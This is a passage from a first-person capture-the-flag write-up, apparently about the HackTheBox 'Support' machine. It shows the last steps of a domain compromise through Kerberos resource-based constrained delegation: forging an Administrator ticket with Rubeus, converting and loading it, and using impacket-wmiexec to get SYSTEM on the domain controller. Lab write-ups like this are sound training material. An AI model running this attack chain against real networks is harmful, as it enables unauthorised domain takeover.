


Phase 8 Domain Compromise
The Domain Controller trusting the RBCD configuration that I had previously set, issued a valid service ticket for the Administrator user.
When I requested a Kerberos ticket for the Administrator user
via the ANR$ account using Rubeus, the Domain Controller trusted
the request because of the RBCD configuration I had previously set. The DC issued a valid service
ticket for the Administrator user, which I then used to authenticate to the Domain Controller as
NT AUTHORITY\SYSTEM, achieving full domain compromise.
Ticket Conversion
I converted the Kerberos ticket from .kirbi to .ccache format and
authenticated to the Domain Controller as NT AUTHORITY\SYSTEM.
impacket-ticketConverter admin_cifs_dc.support.htb.kirbi admin.ccache
Activating the Ticket
I set the ticket as the active credential cache for Kerberos authentication.
export KRB5CCNAME=$(pwd)/admin.ccache
Verifying the Ticket
I confirmed the ticket was successfully loaded using klist.
klist
Administrator Access
Finally, I authenticated to the Domain Controller as the Administrator with Kerberos authentication.
impacket-wmiexec -k -no-pass administrator@dc.support.htbOnce connected, I navigated to the Administrator's desktop and found the root flag as proof of full domain compromise.

